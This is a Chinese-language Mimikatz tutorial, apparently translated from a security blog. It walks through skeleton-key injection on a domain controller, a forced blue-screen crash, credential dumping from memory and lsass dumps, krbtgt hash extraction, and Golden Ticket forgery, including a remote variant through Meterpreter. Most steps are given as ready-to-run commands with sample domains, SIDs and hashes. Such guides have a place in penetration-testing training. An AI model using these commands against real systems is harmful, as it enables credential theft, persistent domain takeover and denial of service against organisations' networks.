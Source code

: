 ## Mimikatz指南

### **什么是Mimikatz？** [^1]

### **用Mimikatz生成Skeleton Key** [^2]

1. 首先，我将尝试使用mimikatz作为密码登录我的服务器。
2. 可以清楚地看到我们无法使用“mimikatz”作为密码登录服务器
3. 现在我将使用其密码“T00r”登录服务器
4. 正如您在下面看到的，我使用正确的密码登录了服务器
5. 如果您曾登录过服务器或已解锁服务器，则可以使用Mimikatz创建一个存储在服务器内存中的框架密钥
6. 首先，我们将使用Mimikatz获得调试权限 `privilege::debug`
7. 然后我们将使用mimikatz框架密钥注入服务器的==内存==中  `misc::skeleton`
8. 有了这个，我们就可以在服务器上成功注入我们的万能钥匙
9. **注意：**您必须使用Administrative Privilege打开mimikatz才能创建Skeleton Key。
10. 现在我将尝试使用我们刚刚在内存中注入的骨架键“mimikatz”登录服务器。记得上次我们尝试使用mimikatz作为密码登录服务器时，我们没有成功。
11. 但这次'mimikatz'被接受为密码。这并不意味着我们重置了原始密码'T00r'。服务器将继续使用'T00r'登录，但现在它也将接受'mimikatz'作为密码。
12. 我们在内存中注入了框架密钥，而不是在存储器中，因此下次管理员重新启动服务器时，我们将失去访问权限。因此，保护域控制器免受Skeleton Key保护的最佳方法是经常重启服务器或阻止mimikatz访问内存。

### **使用Mimikatz让主机蓝屏死机（BSOD）**

1. 使用**管理员**运行mimikatz
2. 启动mimidrv服务  `!+`
3. 现在按以下命令启动BSOD `!bsod`
4. **注意：**此攻击可能会破坏数据并**可能损害系统**。小心使用!!

### **显示主机名**

`hostname`

### 使用Mimikatz生成Golden Ticket  [^3]

1. 要获取域，我们将从命令行或PowerShell 运行  `ipconfig  /all` 。取Primary Dns Suffix值
2. 现在要获得SID，我们将使用 `whoami / user` 命令
3. 现在我们使用mimikatz自己提取生成Ticket所需的NTLM哈希。
4. `privilege::debug`
5. `sekurlsa::logonpasswords`
6. 生成票证 [^4]
7. `kerberos::golden /domain:PAVAN.LOCAL /sid:S-1-5-21-1118594253-693012904-2765600535 /rc4:9a7a6f22651d6a0fcc6e6a0c723c9cb0 /user:hacker /id:500 /ptt`
8. 这里正在为名为“ **hacker** ” 的用户创建Golden Ticket; 使用`[/ ppt]`选项在当前会话中传递票证
9. 现在运行命令提示符以访问共享文件夹并执行以下命令
10. `pushd \\WINSERVER01\c$`
11. 现在我们在Z：驱动程序执行以下命令用于NT目录服务
12. `cd WINDOWS\NTDS & DIR`
13. 正如您所看到的那样，我们可以访问共享文件夹，如果没有Admin Access就无法访问该文件夹，但我们已经获得了它而不使用CMD作为管理员

### **远程生成Golden Ticket**

1. 首先获取服务器的Meterpreter访问权限
2. 获得meterpreter后，使用该命令将mimikatz文件夹上传到受害者系统
3. `upload -r /root/Desktop/mimi c:\` **使用-r**以便递归地上载upload命令
4. 打开shell并使用 `ipconfig / all`  解析Domain
5. `whoami / user` 获取SID
6. 运行 **mimikatz.exe**
7. 现在使用以下命令提取**krbtgt NTLM哈希**
8. `lsadump::lsa /inject /name:krbtgt` 取**ntlm**值
9. 生成Golden Ticket
10. `kerberos::golden /domain:pavan.loc /sid:S-1-5-21-97841242-3460736137-492355079 /rc4:e847d2e54044172830e3e3a6b8438853 /user:Hacker /id:500 /ptt`

### 本地破解进程镜像 lsass

```
mimikatz # sekurlsa::minidump lsass.dump
mimikatz # sekurlsa::logonpasswords
```



### **破解扫雷游戏**

`minesweeper::infos`

[原文](https://www.hackingarticles.in/understanding-guide-mimikatz/)

---

[^1]: Mimikatz是[Benjamin Delpy](https://twitter.com/gentilkiwi?lang=en)用C语言制作的工具。它是从内存中提取纯文本密码，哈希值和Kerberos票证的绝佳工具。它也可以用于生成Golden Ticket。[项目地址](https://github.com/gentilkiwi/mimikatz)
[^2]: 在这次攻击中，mimikatz在域控制器上安装补丁以接受“mimikatz”作为新的登录密码？它可以被视为**主密钥**，它将向攻击者打开Active Directory。可以如下所示执行此攻击。
[^3]: 要生成金票，我们需要以下信息：**域、SID、NTLM哈希**
[^4]: **语法：** `Kerberos :: golden / domain：[Domain] / sid：[SID] / rc4：[NTLM Hash] / user：[Username To Create] / id：500 / ptt`